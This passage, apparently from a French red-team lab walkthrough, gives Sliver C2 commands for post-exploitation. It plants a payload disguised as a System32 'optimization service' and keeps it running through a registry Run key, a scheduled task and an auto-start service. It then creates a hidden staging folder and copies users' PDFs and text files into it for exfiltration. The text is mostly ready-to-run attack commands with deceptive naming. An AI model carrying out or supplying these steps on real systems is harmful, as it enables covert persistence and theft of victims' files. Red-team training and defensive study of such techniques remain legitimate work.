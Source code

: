 
## 🔄 Phase 4 : Établissement de Persistance

### Étape 4.1 : Persistance via Registre
```bash
# Copier le payload dans un emplacement permanent
sliver (session) > upload ~/project-m1/payloads/SystemOptimizer.exe "C:\Windows\System32\OptimizationService.exe"

# Créer une entrée de registre
sliver (session) > execute "reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v OptimizationService /t REG_SZ /d C:\Windows\System32\OptimizationService.exe /f"
```

### Étape 4.2 : Persistance via Tâche Programmée
```bash
# Créer une tâche programmée
sliver (session) > execute "schtasks /create /tn \"System Optimization\" /tr \"C:\Windows\System32\OptimizationService.exe\" /sc onlogon /f"

# Vérifier la tâche créée
sliver (session) > execute "schtasks /query /tn \"System Optimization\""
```

### Étape 4.3 : Persistance via Service Windows
```bash
# Créer un service Windows (nécessite privilèges administrateur)
sliver (session) > execute "sc create OptimizationSvc binPath= \"C:\Windows\System32\OptimizationService.exe\" start= auto"
sliver (session) > execute "sc description OptimizationSvc \"System Optimization Background Service\""

# Démarrer le service
sliver (session) > execute "sc start OptimizationSvc"
```

---

## 📊 Phase 5 : Collecte et Exfiltration de Données

### Étape 5.1 : Création de Répertoires de Staging
```bash
# Créer un répertoire de travail caché
sliver (session) > execute "mkdir C:\Windows\Temp\.system"
sliver (session) > execute "attrib +h C:\Windows\Temp\.system"
```

### Étape 5.2 : Collecte de Fichiers Sensibles
```bash
# Copier des documents utilisateur
sliver (session) > execute "copy \"C:\Users\%USERNAME%\Documents\*.pdf\" \"C:\Windows\Temp\.system\""
sliver (session) > execute "copy \"C:\Users\%USERNAME%\Desktop\*.txt\" \"C:\Windows\Temp\.system\""

# Créer un fichier de credentials factice
sliver (session) > execute "echo admin:P@ssw0rd123 > C:\Windows\Temp\.system\saved_passwords.txt"
sliver (session) > execute "echo backup_key=ABC123-DEF456-789GHI >> C:\Windows\Temp\.system\saved_passwords.txt"
```
